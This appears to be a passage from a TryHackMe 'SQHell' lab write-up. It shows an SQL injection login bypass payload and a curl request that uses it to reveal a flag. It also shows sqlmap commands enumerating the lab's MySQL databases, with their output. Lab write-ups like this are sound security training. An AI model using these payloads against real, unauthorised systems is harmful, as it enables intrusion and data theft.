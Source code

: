 # 89 - SQHell (SQLI types and exploitation)

Room Link --> [https://tryhackme.com/room/sqhell](https://tryhackme.com/room/sqhell)

## SQLi Resources

* [https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)
* [https://github.com/Y000o/sql\_injection\_basic/blob/master/sql\_injection\_basic\_en.md](https://github.com/Y000o/sql\_injection\_basic/blob/master/sql\_injection\_basic\_en.md)
* [https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)
* [https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/](https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/)

#### Cheatsheet

{% file src=".gitbook/assets/binca_sql-injection_cheetsheet.pdf" %}

## Flag 1 - In-band SQLI / Time-Based Blind

The login page.

```sql
admin' OR 1=1-- -
```

### Using Curl:

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ curl http://sqhell.thm/login -X POST -d "username=admin' or 1=1-- -&password=admin" | html2text 

Login Register
****** Logged In ******
Logged In
THM{FLAG1:E786483E5A53075750F1FA792E823BD2}

```
{% endcode %}

### Using SQLMap

**Type**: time-based blind

{% code overflow="wrap" %}
```bash
# 1
sqlmap -u "http://sqhell.thm/login" --data "username=admin&password=admin"

POST parameter 'username' is vulnerable.
[09:23:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12

# 2
# DBs / Schemas
sqlmap -u "http://sqhell.thm/login" --data "username=admin&password=admin" --batch --dbms=mysql --dbs --threads 10

available databases [2]:
[*] information_schema
[*] sqhell_2

# 3
```